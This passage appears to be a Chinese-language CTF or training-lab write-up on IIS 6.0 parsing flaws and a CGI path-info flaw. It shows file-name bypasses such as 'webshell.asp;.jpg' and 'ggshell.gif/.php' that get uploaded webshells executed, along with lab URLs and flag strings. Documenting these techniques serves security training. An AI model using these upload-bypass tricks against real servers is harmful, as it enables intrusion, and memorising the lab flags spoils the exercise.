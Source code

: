 ```bash
http://59.63.200.79:8002/a/image/webshell.asa

# zKaQ-HatBI01Th
```


## 21. IIS6.0 解析漏洞（二）

使用 asp 分号断言绕过 `;` : `webshell.asp;.jpg`

![](https://nc0.cdn.zkaq.cn/md/8461/844dc58b449211aa57ec8386478e34ea_90489.png)


![](https://nc0.cdn.zkaq.cn/md/8461/3bcbeb094a2b69eb8c295f1a9d9b0466_45495.png)

```bash
http://59.63.200.79:8002/b/image/yingtaozi.asp;.jpg

# zKaQ-Y34Y2ets
```


## 21. IIS6.0 解析漏洞（三）

利用 路径 包含 `x.asp` 的漏洞

![](https://nc0.cdn.zkaq.cn/md/8461/a26ea8bfb795f3e8e55e96b6ebbb5285_35864.png)

```bash
http://59.63.200.79:8002/c/image/a.asp/1608724067.jpg

# zKaQ-Y1EHhm0O
```

## 22. CGI 漏洞

上传一个图片马， 使用 CGI 漏洞

![](https://nc0.cdn.zkaq.cn/md/8461/b41b15dc3e277aef4d2128d85a9d2237_14050.png)

```bash
http://59.63.200.79:8016//Pass-23/upload/ggshell.gif/.php

# zKaQ-1Q2IO0SA
```

